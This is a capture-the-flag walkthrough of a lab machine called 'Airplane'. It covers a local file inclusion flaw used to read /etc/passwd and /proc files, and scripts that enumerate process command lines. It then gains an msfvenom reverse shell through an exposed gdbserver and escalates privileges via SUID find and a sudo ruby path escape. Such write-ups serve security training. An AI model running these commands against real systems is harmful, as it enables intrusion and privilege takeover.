




First of all add the machine IP to `/etc/hosts`


As always we will perform a NMAP scan:
```nmap
$ nmap -sT -p- airplane.thm -T4

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-07 20:01 CEST
Nmap scan report for airplane.thm (10.10.196.89)
Host is up (0.064s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
6048/tcp open  x11
8000/tcp open  http-alt
```

We found 3 open Ports here:

22, 6048, 8000

we can enumerate directory for port 8000;


but upon visiting it feels like a bogus website,

we can simply visit website on port 8000.


and in the URL here we can see the Local File Inclusion.

so we will use it to get the `/etc/passwd`.

`http://airplane.thm:8000/?page=../../../../etc/passwd`

upon looking at passwd file:

we can observe there are 3 users:

```cmd
┌──(kali㉿kali)-[~/Downloads]
└─$ cat passwd    
root:x:0:0:root:/root:/bin/bash
carlos:x:1000:1000:carlos,,,:/home/carlos:/bin/bash
hudson:x:1001:1001::/home/hudson:/bin/bash
```

I tried to get the flag directly from the LFI Vulnerability:

`http://airplane.thm:8000/?page=../../../../home/carlos/user.txt`

`http://airplane.thm:8000/?page=../../../../home/hudson/user.txt`

but no luck as it was always the page not found



now lets take this page to burp suite and enumerate on it more.

let's check `/proc/self/status` this will tell us which process is running on the web server. 



this is what we got by this we can identify that `hudson` is running the web server.

now that we saw that there is a python file running too, to know which python file is running to execute the web server. We will retrieve the command used to execute the web server.

`/proc/self/cmdline` 


we can see the app name here is `app.py`.

To read the source code of the `app.py` we can use the following command.

`/proc/self/cwd/app.py` where `cwd` means current working directory.


looking upon the source code there is nothing interesting in the it.

Now let's check upon the port 6048.

we can use `/proc/net/tcp` to check the port services.



In `/proc/net/tcp` the ports are save in the hexadecimal format i.e here:

`0x17A0` is a hexadecimal which resembles to port `6048` and is running on `hudson` id.

now we know that same user is running other service on different port, we can read its command line as well.

previously we used `/proc/self/cmdline` as we were already running it on the web server, so we didn't need to specify the pid as the self command already used the pid of the web server.

now we will use `/proc/<id>/cmdline` to identify the service running on the port `6048`.

```bash
for i in {1..1000}; do echo -n "\r$i"; out=$(curl -s "http://airplane.thm:8000/?page=../../../../../proc/$i/cmdline" | sed 's/\x00/ /g' | grep -v 'Page not found'); if [ -n "$out" ]; then echo "\r$i : $out"; fi; done
```

I got this script from [jaxafed](jaxafed.github.io), thanks to him for this one liner bash script.

this script basically iterates the id and tries to fetches the output and upon getting the output it shows us the id it used, and it skips the ones which shows page not found.

this script might take sometime, but works 100%.

or either you can use this python code which is 10x faster than this bash script.

```python
import asyncio
import aiohttp

BASE_URL = "http://airplane.thm:8000/"
MAX_PID = 1000
CONCURRENCY = 50

sem = asyncio.Semaphore(CONCURRENCY)

async def fetch_cmdline(session, pid):
    params = {
        "page": f"../../../../../proc/{pid}/cmdline"
    }
    async with sem:
        try:
            async with session.get(BASE_URL, params=params, timeout=3) as resp:
                text = (await resp.text()).replace("\x00", " ").strip()
                if text and "Page not found" not in text:
                    print(f"[+] {pid}: {text}")
        except Exception:
            pass

async def main():
    async with aiohttp.ClientSession() as session:
        tasks = [fetch_cmdline(session, pid) for pid in range(1, MAX_PID + 1)]
        await asyncio.gather(*tasks)

asyncio.run(main())

```


after running this we got to see that with pid `[+] 536: /usr/bin/gdbserver 0.0.0.0:6048 airplane` there is `gdbserver` running on this port by `hudson`.

let's exploit it to get the shell.

we will use the technique shared [here](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-remote-gdbserver.html#upload-and-execute) 
```shell
# Trick shared by @B1n4rySh4d0w
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 PrependFork=true -f elf -o binary.elf

chmod +x binary.elf

gdb binary.elf

# Set remote debuger target
target extended-remote 10.10.10.11:1337

# Upload elf file
remote put binary.elf binary.elf

# Set remote executable file
set remote exec-file /home/user/binary.elf

# Execute reverse shell executable
run

# You should get your reverse-shell

```


in my case the `gdb` is not working well, so i'm using `gdb-multiarch` which supports multi architecture. But most of you will be fine with `gdb`.

my commands were:

```bash

set architecture i386:x86-64

target extended-remote 10.49.191.18:6048

Rest same as above

```




here we go, we got the reverse shell on user `hudson`.

Now, we are going to get the persistence on that target system.


and we got the ssh connection to `hudson`.

but we are still unable to find the `user` flag.

### Privilege Escalation


`sudo -l` here needs `hudson` user password, which we don't have.

`find / -perm -4000 -type f`

upon running this, we found out something interesting.

`/usr/bin/find`

to exploit this SUID we can use `find . -exec /bin/sh -p \; -quit`

refer [GTFO BINS](https://gtfobins.org/gtfobins/find/)


here we got the `user.txt` flag

#### Root Flag

First we will get a better shell for `carlos` we will repeat the same thing again as we did for `hudson`.

we will a ssh key to the `.ssh/authorized keys`


And here we go, We got the shell with `carlos`

upon `sudo -l` we can see:


so there is one more misconfigured SUID.

refer [GTFO BINS](https://gtfobins.org/gtfobins/ruby/)

but we have to use the commands smartly.

we can observe in `sudo -l` that the ruby file must be ran from the `/root` folder.

we can use this commands exactly:

```shell
echo 'exec "/bin/bash"' >> /tmp/delete.rb

sudo /usr/bin/ruby /root/../tmp/delete.rb
```

here we did path escape.


And BOOM! we got the `root.txt` flag.


